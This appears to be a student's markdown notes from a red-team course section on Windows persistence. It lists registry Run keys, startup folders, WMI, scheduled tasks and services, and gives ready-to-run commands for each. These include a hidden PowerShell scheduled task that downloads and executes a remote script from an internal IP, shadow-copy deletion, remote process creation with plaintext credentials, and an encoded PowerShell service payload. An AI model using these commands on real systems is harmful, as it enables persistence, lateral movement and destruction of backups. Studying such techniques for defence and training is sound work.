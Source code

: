 # [Persistence](https://www.udemy.com/course/red-team-operations-initial-access-to-ransomware-deployment/learn/lecture/39335384?start=0#overview) - section 6

## <a name="reg_keys">Registry keys</a>
Run Keys:
> HKCU\Software\Microsoft\Windows\CurrentVersion\Run
> 
> HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
> 
> HKLM\Software\Microsoft\Windows\CurrentVersion\Run
> 
> HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

Examples:

    reg.exe add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Notepad /t REG_SZ /d "C:\Windows\System32\notepad.exe"

Startup keys:
> HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
> 
> HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
> 
> HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
> 
> HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders

Examples:
    cp malware.exe "C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"

Service Keys:
> HKLM\SYSTEM\CurrentControlSet\Services

Examples:

## <a name="startup">Startup folder</a>
Startup folder:
> C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

Examples:

    cp malware.exe "C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"

## <a name="wmi">Windows Management Instrumentation (WMI)</a>
Examples:

Reconnaissance

    wmic useraccount list full
    wmic group list full

Impact

    wmic shadowcopy delete /noninteractive
    wmic process call create vssadmin.exe delete shadows /all /quiet 
    wmic process call create malware.exe

Lateral movement

    wmic /node:192.168.4.31 /user:dgolding /password:Password123 process call create "C:\malware.exe"

Review video 23 for filter + consumer = binding

## <a name="sched">Scheduled tasks</a>
Examples:

    schtasks /create /sc onlogon /tn "malware" /tr "C:\malware.exe"
    schtasks /create /sc minute /mo 1 /tn "malware" /tr "C:\malware.exe"
    schtasks /create /tn "malware" /tr "C:\Windows\syswow64\WindowsPowershell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep Bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.4.31/malware.ps1'''))'" /sc onlogon /ru System
    schtasks /query /fo list /v
    schtasks /delete /tn "malware" /f
    schtasks /run /tn "malware"

## <a name="serv">Services</a>

Examples:

    sc query windefend
    sc create malware binpath="C:\malware.exe" start=auto
    sc start malware
    sc start malware
    sc delete malware
    sc create malware binpath="powershell.exe PABzAGMAcgBpAHAAdAAgAGwAYQBuAGcAdQBhAGcAZQA9ACIAVgBCA==" start=auto